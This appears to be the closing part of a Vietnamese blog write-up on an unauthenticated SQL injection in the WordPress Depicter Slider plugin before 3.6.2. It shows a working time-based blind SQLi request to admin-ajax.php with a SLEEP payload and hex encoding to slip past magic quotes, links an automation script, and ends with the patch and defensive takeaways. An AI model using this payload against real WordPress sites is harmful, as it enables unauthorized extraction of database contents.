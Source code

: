```http
GET /wp-admin/admin-ajax.php?action=depicter-lead-list&s=999%25'+AND+(SELECT+1+FROM+(SELECT+IF(SUBSTRING(SCHEMA(),1,1)=0x77,SLEEP(5),1))a))+--+-+ HTTP/1.1
Host: localhost
...
Cookie: cookie_here
```

Sử dụng `SUBSTRING()` để lấy ký tự đầu tiên của **database name**, `IF()` trả về `SLEEP(5)` nếu ký tự đó là `0x77`('w')

Sử dụng hex encoding `w` thành `0x77` vì `s` được lấy từ **GET** request trong nên bị escape bởi [magic quotes](https://patchstack.com/academy/wordpress/vulnerabilities/sql-injection/#magic-quotes) trong WordPress và bởi `sanitize_text_field`.

👉 Dựa trên thời gian phản hồi => kí tự đầu tiên đúng là `w`.

Dựa trên kĩ thuật **Timebased SQLi** ta viết script để tự động khai thác.

[Script here](https://github.com/w41bu1/w41bu1.github.io/blob/main/assets/code/posts/2025-09-10-CVE-2025-30936/script.py)

---

## Conclusion
Lỗ hổng **CVE-2025-2011** trong plugin WordPress **Depicter Slider** trước phiên bản **3.6.2**, xuất phát từ việc truyền trực tiếp input từ người dùng vào SQL query mà không có biện pháp kiểm soát chặt chẽ dẫn đến lỗ hổng SQL Injection.

Bản vá đã **escape SQL** khiến dữ liệu trước khi đưa vào trở thành chuỗi thuần không thể thoát ra khỏi `'%...%'`

**Key takeaways**:

- Kiểm soát kỹ input từ người dùng.
- Luôn sử dụng `$wpdb->prepare()` khi làm việc với database trong WordPress để tránh SQL Injection.
- Thường xuyên cập nhật plugin và kiểm tra bảo mật để tránh trở thành mục tiêu tấn công.

---

## References

[SQL Injection cheat sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[ WordPress Depicter Slider Plugin <= 3.6.1 is vulnerable to SQL Injection ](https://patchstack.com/database/wordpress/plugin/depicter/vulnerability/wordpress-depicter-slider-plugin-3-6-1-unauthenticated-sql-injection-via-s-parameter-vulnerability)

---